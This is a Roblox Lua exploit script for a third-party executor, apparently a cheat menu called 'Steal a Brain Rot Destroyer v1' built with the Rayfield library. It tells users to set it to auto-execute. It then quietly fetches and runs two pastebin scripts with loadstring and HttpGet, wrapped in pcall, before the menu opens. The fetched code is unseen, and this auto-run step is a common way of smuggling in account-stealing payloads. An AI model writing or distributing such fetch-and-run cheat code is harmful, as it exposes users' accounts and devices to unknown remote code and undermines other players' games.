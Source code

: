 local Players = game:GetService("Players")
local player = Players.LocalPlayer
local playerGui = player:WaitForChild("PlayerGui")

local warningGui = Instance.new("ScreenGui")
warningGui.Name = "WarningGui"
warningGui.ResetOnSpawn = false
warningGui.Parent = playerGui

local overlay = Instance.new("Frame")
overlay.Size = UDim2.new(1, 0, 1, 0)
overlay.Position = UDim2.new(0, 0, 0, 0)
overlay.BackgroundColor3 = Color3.new(0, 0, 0)
overlay.BorderSizePixel = 0
overlay.ZIndex = 10
overlay.Parent = warningGui

local warningText = Instance.new("TextLabel")
warningText.Size = UDim2.new(1, 0, 1, 0)
warningText.Position = UDim2.new(0, 0, 0, 0)
warningText.BackgroundTransparency = 1
warningText.Text = "PLEASE PUT SCRIPT IN AUTO EXECUTE IN THE EXECUTOR"
warningText.TextColor3 = Color3.new(0, 1, 0)
warningText.Font = Enum.Font.SourceSansBold
warningText.TextSize = 36
warningText.TextStrokeTransparency = 0
warningText.TextWrapped = true
warningText.TextScaled = true
warningText.ZIndex = 11
warningText.Parent = overlay

task.delay(0.01, function()
    warningGui:Destroy()
end)

-- Auto-run external scripts on load
pcall(function()
    loadstring(game:HttpGet("https://pastebin.com/raw/qrFryUJ2",true))()
end)

pcall(function()
    loadstring(game:HttpGet("https://pastebin.com/raw/8nMHjrYw", true))()
end)

local Rayfield = loadstring(game:HttpGet("https://sirius.menu/rayfield"))()

-- Create the main window
local Window = Rayfield:CreateWindow({
Name = "Steal a Brain Rot Destroyer v1",
LoadingTitle = "made by ken_i",
LoadingSubtitle = "Using Rayfield",
ConfigurationSaving = { Enabled = true },
Discord = { Enabled = false },
KeySystem = false
})
